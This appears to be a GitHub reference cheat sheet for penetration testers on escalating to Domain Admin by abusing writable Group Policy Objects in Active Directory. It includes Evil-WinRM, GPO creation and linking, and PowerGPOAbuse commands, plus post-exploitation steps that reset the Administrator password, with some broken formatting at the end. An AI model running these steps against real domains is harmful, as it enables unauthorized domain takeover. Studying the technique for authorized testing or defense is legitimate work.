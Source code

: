 # GPO Abuse for Privilege Escalation – General Reference

This document provides an overview of abusing writable Group Policy Objects (GPOs) to escalate privileges in an Active Directory environment. 
It also includes a cheat sheet of generalized commands that you can adapt for your engagements.

---

## 1. Overview

GPO abuse is a technique used during penetration testing (or CTF challenges) to leverage GPO editing permissions to inject malicious configurations. 
By modifying a GPO, an attacker can:

- Add their account to high-privilege groups (e.g., Domain Admins).
- Execute arbitrary commands on Domain Controllers or other systems.
- Change system settings via Group Policy Preferences.

**Key Points:**
- **Writable GPO:** The attacker must have permissions to create or edit GPOs.
- **GPO Linking:** The GPO must be linked to an Organizational Unit (OU) or the domain root so its settings are applied.
- **Propagation Delay:** Changes propagate on the next GPO refresh (typically 5–10 minutes) or on reboot/logon.
- **Execution Context:** GPO Preferences run under system or elevated contexts, which is why the abuse can be so powerful.

---

## 2. Attack Workflow

1. **Establish a Connection:**  
   Use a remote management tool (e.g., Evil-WinRM) to connect as a user with GPO editing privileges.

2. **Create a New GPO:**  
   Create a fresh GPO (e.g., "PrivEsc_GPO") to serve as a clean target for abuse.

3. **Link the GPO:**  
   Link the newly created GPO to the domain or target OU so that its settings are applied.

4. **Load Abuse Functions:**  
   Import an abuse script (e.g., a PowerShell script such as `PowerGPOAbuse.ps1`) that contains functions for modifying GPO settings.

5. **Modify the GPO to Escalate Privileges:**  
   Use a function from the abuse script to add your account to a privileged group (e.g., Domain Admins).  
   *Example (generalized):*
   ```powershell
   Add-GPOGroupMember -GPOIdentity "PrivEsc_GPO" -DomainGroup "PrivilegedGroup" -Member "YourAccount"
(Adjust the parameters based on your script’s help output.)

Force Policy Update:
Force a GPO refresh to propagate the changes immediately:

```
gpupdate /force
```

If forcing fails, wait 5–10 minutes for automatic propagation.

Verify Escalation:
Confirm that your account has been added to the privileged group:

```
whoami /groups | findstr /i "PrivilegedGroup"
```


Post-Exploitation:
Once you have escalated privileges, perform post-exploitation actions (e.g., resetting the Administrator password, accessing sensitive files).

3. Command Cheat Sheet
A. Establish a Remote Session



# Example using Evil-WinRM (replace placeholders as needed)
```
evil-winrm -i <Target_IP_or_FQDN> -u <GPO_Editor_User> -r <REALM>
```


B. Create and Link a New GPO

```
New-GPO -Name 'PrivEsc_GPO' | New-GPLink -Target 'DC=<Your_Domain>,DC=<TLD>'
```

Verify:

```
Get-GPO -Name 'PrivEsc_GPO'
```


C. Import the Abuse Script
If the abuse script is stored locally:

```
Invoke-Expression (Get-Content -Path .\PowerGPOAbuse.ps1 -Raw)
```



Confirm functions are loaded:

```
Get-Command -Name Add-GPOGroupMember
```


D. Escalate Privileges via GPO Modification
Using the abuse function (adjust parameters as necessary):

```
Add-GPOGroupMember -GPOIdentity "PrivEsc_GPO" -DomainGroup "PrivilegedGroup" -Member "YourAccount"
```

Alternatively, some versions may use different parameters. Always check with:

```
Get-Help Add-GPOGroupMember -Detailed
```

E. Force a GPO Update
```
gpupdate /force
```
(Or wait 5–10 minutes for changes to propagate.)

F. Verify Privilege Escalation
```
whoami /groups | findstr /i "PrivilegedGroup"
```

G. Post-Exploitation: Reset Administrator Password and Retrieve Sensitive Data
```
net user Administrator <New_Admin_Password>
```
Then, open a session as Administrator and retrieve sensitive files (e.g., root flag):

```
type C:\Path\To\SensitiveFile.txt
```


If access is denied, consider copying the file to a user-writable location.

4. How the Attack Works
GPO Modification:
With GPO editing rights, an attacker creates or modifies a GPO to include a malicious setting—such as adding a user to a high-privilege group.

Propagation:
The modified GPO is linked to the domain or OU, so its settings are applied to target systems (e.g., Domain Controllers) on the next policy refresh or reboot.

Execution of Malicious Payload:
When the GPO refreshes, the malicious payload executes with elevated privileges, modifying system settings (e.g., group membership).

Privilege Escalation Outcome:
The attacker's account is elevated, granting them broad access and control over the domain, which can then be used for further exploitation.


##
##

## Parameter Reference for GPO Abuse Functions

When using functions from abuse scripts (such as PowerGPOAbuse.ps1), you might encounter various parameters. Note that exact names can vary between versions. Below are some common parameters and their meanings:

### General Parameters for GPO Modification Functions

- **GPO Identity Parameters:**
  - **`-GPOIdentity` or `-Name`**:  
    Specifies the target GPO. You can provide the GPO's display name, distinguished name, or GUID.  
    *Example:* `-GPOIdentity "PrivEsc_GPO"` or `-Name "PrivEsc_GPO"`

- **Group or Member Parameters:**
  - **`-DomainGroup` or `-GroupName`**:  
    Specifies the target domain group (e.g., "Domain Admins") to which you want to add a member.
  - **`-Member` or `-Members`**:  
    Specifies the account to add to the group. This can be the SAM account name (e.g., "YourUser") or a fully qualified name (e.g., "domain\YourUser").

- **Force and Credential Parameters:**
  - **`-Force`**:  
    When provided, forces the change even if some settings already exist.
  - **`-Domain`**:  
    Explicitly specifies the target domain if it’s not automatically detected.
  - **`-DomainController`**:  
    Targets a specific domain controller if necessary.
  - **`-Credential`**:  
    Supplies alternate credentials for the operation if your current session does not have the required rights.

### Example Usage

Depending on the script version, you might see different usage. For example:

**Variant A:**
```powershell
Add-GPOGroupMember -GPOIdentity "PrivEsc_GPO" -DomainGroup "Domain Admins" -Member "YourUser"
Variant B:

powershell
Copy
Add-GPOGroupMember -Name "PrivEsc_GPO" -GroupName "Domain Admins" -Members "YourUser"
To verify the exact parameter names and usage in your current script, run:

powershell
Copy
Get-Help Add-GPOGroupMember -Detailed

